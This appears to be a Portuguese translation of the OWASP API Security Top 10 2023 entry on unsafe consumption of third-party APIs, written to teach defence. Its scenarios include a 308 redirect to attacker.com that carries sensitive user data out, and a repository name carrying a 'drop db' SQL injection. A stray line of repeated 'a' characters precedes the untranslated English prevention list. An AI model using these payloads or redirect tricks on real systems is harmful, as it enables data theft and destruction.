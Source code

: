 # API10:2023 Unsafe Consumption of APIs

| Agentes Ameaça/Vetores Ataque | Falha Segurança | Impactos |
| - | - | - |
| Específico da API : Abuso **Fácil** | Prevalência **Comum** : Deteção **Moderado** | Técnico **Severo** : Específico Negócio |
| Explorar este problema requer que os atacantes identifiquem e potencialmente comprometam outras APIs/serviços com os quais a API alvo está integrada. Normalmente, esta informação não está disponível publicamente ou a API/serviço integrado não é facilmente explorável. | Os desenvolvedores tendem a confiar e não a verificar os _endpoints_ que interagem com APIs externas ou de terceiros, dependendo de requisitos de segurança mais fracos, como aqueles relacionados à segurança do transporte, autenticação/autorização e validação e sanitização de dados. Os atacantes precisam identificar os serviços com os quais a API alvo se integra (fontes de dados) e, eventualmente, comprometer esses serviços. | O impacto varia de acordo com o que a API alvo faz com os dados extraídos. A exploração bem sucedida pode levar à exposição de informações sensíveis a atores não autorizados, a vários tipos de injeções ou à negação de serviço. |

## A API é vulnerável?

Os desenvolvedores tendem a confiar mais nos dados recebidos de APIs de 
terceiros do que nos dados fornecidos por utilizadores. Isso é especialmente 
verdade para APIs oferecidas por empresas bem conhecidas. Por essa razão, os 
desenvolvedores tendem a adotar padrões de segurança mais fracos, especialmente 
no que diz respeito à validação e sanitização de dados.

A API pode estar vulnerável se:

* Interage com outras APIs através de um canal não encriptado;
* Não valida e sanitiza corretamente os dados recolhidos de outras APIs antes de
  os processar ou de os passar para componentes posteriores;
* Segue redirecionamentos cegamente;
* Não limita o número de recursos disponíveis para processar respostas de
  serviços de terceiros;
* Não implementa limites de tempo para interações com serviços de terceiros;

## Exemplos de Cenários de Ataque

### Cenário #1

Uma API depende de um serviço de terceiros para enriquecer os endereços 
comerciais fornecidos pelos utilizadores. Quando um endereço é fornecido pelo 
utilizador final à API, ele é enviado para o serviço de terceiros e os dados 
retornados são então armazenados numa base de dados local compatível com SQL.

Atacantes utilizam o serviço de terceiros para armazenar um conteúdo malicioso 
de injeção SQL (SQLi) associado a um negócio criado por eles. Em seguida, visam 
a API vulnerável fornecendo um conteúdo específico que faz com que esta obtenha 
o "negócio malicioso" do serviço de terceiros. O conteúdo de SQLi acaba por ser 
executado pela base de dados, exfiltrando dados para um servidor controlado pelo
atacante.

### Cenário #2

Uma API integra-se com um fornecedor de serviços de terceiros para armazenar com
segurança informações médicas sensíveis dos utilizadores. Os dados são enviados 
através de uma conexão segura usando um pedido HTTP como o abaixo:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Atacantes encontraram uma forma de comprometer a API de terceiros, que começa a 
responder com um `308 Permanent Redirect` a pedidos como o anterior.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Como a API segue cegamente os redirecionamentos do terceiro, ela repetirá 
exatamente o mesmo pedido, incluindo os dados sensíveis do utilizador, mas desta
vez para o servidor do atacante.

### Cenário #3

Um atacante pode preparar um repositório git chamado `'; drop db;--`.

Agora, quando uma integração de uma aplicação atacada é feita com o repositório 
malicioso, uma carga de injeção SQL é utilizada numa aplicação que constrói uma 
consulta SQL, acreditando que o nome do repositório é um conteúdo seguro.

## Como Prevenir
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs
  before using it.
* Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.


## Referências

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### Externas

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
